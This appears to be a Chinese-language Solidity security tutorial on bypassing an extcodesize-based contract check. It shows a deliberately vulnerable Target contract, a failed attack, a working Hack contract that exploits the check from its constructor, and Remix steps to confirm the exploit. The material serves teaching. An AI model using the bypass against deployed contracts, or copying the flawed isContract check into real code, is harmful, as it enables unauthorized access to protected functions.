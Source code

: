 # 79.Bypass Contract Size Check
## 漏洞
如果一个地址是一个合约，那么存储在该地址的代码大小肯定大于0，对吧？

让我们看看如何创建一个代码大小由extcodesize返回的合约等于0的合约。

Tatget合约：Target合约是一个简单的合约，包含一个bool类型的状态变量pwned和一个函数protected()。该函数要求调用者不是一个合约，如果调用者是一个合约，函数将抛出一个错误。该函数将pwned变量设置为true。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Target {
    function isContract(address account) public view returns (bool) {
        // 该方法依赖于extcodesize函数，对于正在构建中的合约，该函数返回0，因为代码只在构造函数执行结束时存储。
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}
```
FailedAttack合约：FailedAttack合约是一个攻击合约，尝试调用Target合约的protected()函数。但是，由于Target合约的保护机制，从合约调用将失败。
```solidity
contract FailedAttack {
    // 尝试调用Target.protected将失败，
    // Target阻止从合约调用
    function pwn(address _target) external {
        // 这将失败
        Target(_target).protected();
    }
}
```
Hack合约：Hack合约是一个攻击合约，可以绕过Target合约的保护机制。当Hack合约被创建时，它会调用Target合约的isContract()函数来检查它自己是否是一个合约。但是，由于Target合约的isContract()函数依赖于extcodesize()函数，该函数在合约创建期间返回0，因此Hack合约将绕过isContract()检查。然后，它调用Target合约的protected()函数，将pwned变量设置为true。


```solidity
contract Hack {
    bool public isContract;
    address public addr;

    // 当合约正在创建时，代码大小（extcodesize）为0。
    // 这将绕过isContract()检查
    constructor(address _target) {
        isContract = Target(_target).isContract(address(this));
        addr = address(this);
        //这将起作用
        Target(_target).protected();
    }
}
```

## remix验证
1. 部署Target合约，调用 isContract函数输入一个合约地址，查看结果
![79-1.jpg](./img/79-1.jpg)
2. 部署FailedAttack合约，调用pwn函数输入上一步的Target合约地址，验证是否成功
![79-2.jpg](./img/79-2.jpg)
3. 部署Hack合约，将Target合约地址作为参数传入构造函数。Hack合约的构造函数调用Target.isContract()方法，但此时Hack合约的代码大小为0，因此isContract()方法返回false。
![79-3.jpg](./img/79-3.jpg)
4. Hack合约的构造函数调用Target.protected()方法，由于调用者是一个地址而不是合约，因此调用成功并将pwned变量设置为true。查看Target合约的pwned变量，应该为true，说明攻击成功。
![79-4.jpg](./img/79-4.jpg)